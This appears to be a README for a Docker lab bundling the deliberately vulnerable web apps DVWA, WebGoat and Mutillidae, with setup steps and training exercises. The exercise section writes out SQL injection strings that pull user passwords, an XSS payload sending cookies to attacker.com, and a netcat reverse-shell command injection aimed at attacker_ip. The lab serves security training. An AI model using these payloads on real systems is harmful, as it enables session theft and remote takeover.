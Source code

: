 # Docker Container: Vulnerable Web Application Lab

This Docker container provides a controlled environment for practicing web application security testing.

## Container Details

- **Image**: `learn-library/vulnerable-webapp:latest`
- **Base**: Ubuntu 20.04
- **Applications**: DVWA, WebGoat, Mutillidae
- **Services**: Apache, MySQL, PHP

## Quick Start

### 1. Build and Run

```bash
# Clone the lab repository
git clone https://github.com/learn-library/vulnerable-webapp-lab.git
cd vulnerable-webapp-lab

# Build the container
docker build -t learn-library/vulnerable-webapp .

# Run the container
docker run -d -p 8080:80 -p 3306:3306 \
  --name webapp-lab \
  learn-library/vulnerable-webapp
```

### 2. Access Applications

- **DVWA**: <http://localhost:8080/dvwa>
  - Default credentials: `admin/password`
- **WebGoat**: <http://localhost:8080/webgoat>
  - Self-registration available
- **Mutillidae**: <http://localhost:8080/mutillidae>
  - No authentication required

### 3. Database Access

```bash
# Connect to MySQL
docker exec -it webapp-lab mysql -u root -p

# Default root password: vulnlab123
```

## Security Testing Exercises

### SQL Injection (DVWA)

1. Navigate to DVWA → SQL Injection
2. Set security level to "Low"
3. Test basic injection: `' OR '1'='1`
4. Extract data: `' UNION SELECT user, password FROM users #`

### Cross-Site Scripting (XSS)

1. Navigate to DVWA → XSS Reflected
2. Test basic XSS: `<script>alert('XSS')</script>`
3. Try cookie stealing: `<script>document.location='http://attacker.com/'+document.cookie</script>`

### Command Injection

1. Navigate to DVWA → Command Injection
2. Test basic injection: `; ls -la`
3. Try reverse shell: `; nc -e /bin/bash attacker_ip 4444`

## Learning Objectives

- Understand common web vulnerabilities
- Practice safe penetration testing techniques
- Learn vulnerability exploitation and mitigation
- Develop secure coding awareness

## Safety Guidelines

- **NEVER** test on real applications without permission
- Use only in isolated lab environments
- Follow responsible disclosure principles
- Respect all applicable laws and regulations

## Cleanup

```bash
# Stop and remove the container
docker stop webapp-lab
docker rm webapp-lab

# Remove the image (optional)
docker rmi learn-library/vulnerable-webapp
```

## Troubleshooting

### Container Won't Start

```bash
# Check container logs
docker logs webapp-lab

# Verify port availability
netstat -tlnp | grep :8080
```

### Database Connection Issues

```bash
# Restart MySQL service
docker exec webapp-lab service mysql restart

# Reset database
docker exec webapp-lab mysql -u root -p < /setup/reset-db.sql
```

## Advanced Configuration

### Custom Environment Variables

```bash
docker run -d \
  -p 8080:80 \
  -e MYSQL_ROOT_PASSWORD=custom_password \
  -e DVWA_ADMIN_PASSWORD=custom_admin \
  --name webapp-lab \
  learn-library/vulnerable-webapp
```

### Persistent Data

```bash
# Mount volume for persistent data
docker run -d \
  -p 8080:80 \
  -v $(pwd)/data:/var/lib/mysql \
  --name webapp-lab \
  learn-library/vulnerable-webapp
```

## Educational Resources

- [OWASP Top 10](https://owasp.org/www-project-top-ten/)
- [Web Application Security Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
- [DVWA Documentation](https://github.com/digininja/DVWA)
- [WebGoat User Guide](https://github.com/WebGoat/WebGoat)
